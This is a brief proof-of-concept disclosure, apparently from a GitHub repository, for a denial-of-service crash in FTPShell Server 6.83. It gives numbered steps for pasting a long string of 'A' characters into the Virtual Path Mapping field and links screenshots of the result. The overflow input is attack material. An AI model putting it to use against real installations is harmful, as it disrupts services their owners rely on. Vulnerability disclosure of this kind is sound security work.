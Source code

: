 # FTPShell Server 6.83  -- Denial of Service

Discoverer: leiothrix  
Discovery time: 2019/4/27  
Tested Version: 6.83  
Software Link: http://www.ftpshell.com/downloadserver.htm  

```
Steps to exploit:
1.Run Python Code
2.Open the txt file and copy content to clipboard
1.Open FTPShell Server
2.Select "Manage FTP Accounts"
3.Select "Configure accounts..."
4.Select "Add path" and in "Virtual Path Mapping" Paste Clipboard
5.Click on "OK"
```

POC:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Result map:
![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/a.png)

![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/a.png)
